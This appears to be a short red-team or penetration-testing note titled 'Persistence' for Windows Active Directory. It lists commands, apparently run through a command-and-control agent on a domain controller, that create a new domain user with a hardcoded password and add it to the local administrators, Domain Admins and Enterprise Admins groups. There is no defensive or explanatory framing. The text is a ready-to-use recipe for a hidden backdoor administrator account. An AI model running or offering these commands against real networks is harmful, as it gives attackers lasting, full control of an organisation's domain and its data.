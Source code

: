 # Persistence

Run as NT\Auth or Local/Domain Admin on the DC

Creates a new domain user and adds it into DA and EA groups

    execute -o net user userooo2 "User123123@" /add /Y /domain
    execute -o net localgroup administrators userooo2 /add /Y /domain
    execute -o net group "domain admins" userooo2 /add /domain
    execute -o net group "enterprise admins" userooo2 /add /domain
    execute -o net user userooo2 /domain
